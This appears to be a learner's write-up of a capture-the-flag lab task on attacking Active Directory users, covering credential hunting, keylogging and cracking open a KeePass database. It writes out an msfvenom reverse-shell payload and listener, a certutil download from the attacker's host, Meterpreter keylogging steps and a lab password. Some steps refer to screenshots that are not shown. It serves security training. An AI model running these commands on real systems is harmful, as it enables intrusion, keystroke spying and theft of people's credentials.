








AD Users
Exploiting AD Users
We have gotten quite far with our exploitation up to this point. We have full administrative access to workstations and servers. Essentially, we can perform post-exploitation on almost any Tier 1 and Tier 2 system. But we still want to go further. This next task can also be seen as post-exploitation but is often an excellent thing to use when we are still performing exploitation to reach a suitable position for goal execution. It is time for us to target AD users.
Users and User Behavior
Users are, unfortunately, often the weakest link in the security chain. Just think about weak passwords and bad habits, such as granting overly permissive permissions. It would be ignorant and ineffective to overlook this attack surface. While it is good to build up a proper enumeration and attack methodology against AD users, in this task, we will focus on two elements:
▪ Credential Management - How users store their credentials. In AD, this is quite important since users may have multiple sets of credentials and remembering all of them can be a hassle.
▪ Keylogging - Often, during exploitation, we need to understand how normal users interact with a system. Together with screengrabs, Keylogging can be a useful tool to gain this understanding from an attacker's perspective.
Hunting for Credentials
Now that we have compromised THMSERVER1, we should probably look around to see if there is any useful information. Have a look at the user directories and see if there is some useful information in any of them.
Your enumeration efforts should lead you to a .kdbx file. A quick Google should confirm our suspicion that this file is indeed very valuable! We can use Meterpreter's download command to recover this file.
This file seems to be a credential database. The issue, however, is that the database is encrypted with a password. We could attempt to crack the password, but anyone who uses a credential database usually has the savvy to make sure the initial password is secure. We may have more success seeing how the user interacts with this database.
We found a file named: PasswordDatabase.kdbx in the location C:\Users\trevor.local\Documents
SYSTEM is Sometimes Too Privileged
Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.
Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell.
Payload:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.50.78.95 LPORT=8888 -f psh -o cybex.ps1
Start Metasploit Listener:
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 10.50.78.95; set LPORT 8888;exploit"
Then, host this on python web server.
Next, Connect to THMSERVER1 using Kerberos Delegation Exploit (Discussed Earlier)
Then, download our shell using the following.
certutil.exe -urlcache -split -f http://10.50.78.95/shell.ps1
Then, execute the shell to get a meterpreter session.
Once you have a meterpreter shell, you can continue. The first step is to see if the users have any running processes on this machine:

Then, we migrate to this process

Check UID

Start Keylogger

Now we have to be patient and wait. If we are lucky, we will capture some credentials! Give it a couple of minutes, and then run the following to dump captured keystrokes:

Then, Stop Keylogger: keyscan_stop
Password Found: Imreallysurenoonewillguessmypassword
Note: I did not find any user based process to migrate into & run the keylogger. I used writeups to get the password.
[Maybe Restarting the Network will solve this issue]
This is a straightforward example of targeting AD users. There is a lot more that can be done. It is essential to include user targeting in your exploitation methodology for AD. To answer the questions for this task you will need Keepass.
apt install keypassx
It is used to open the password database.
1. Run keepassx
2. Feed the Password database file
3. Enter the above password when prompted
4. View the password in PasswordDatabase/general/flag

Then,

Right Click View entry/Double Click
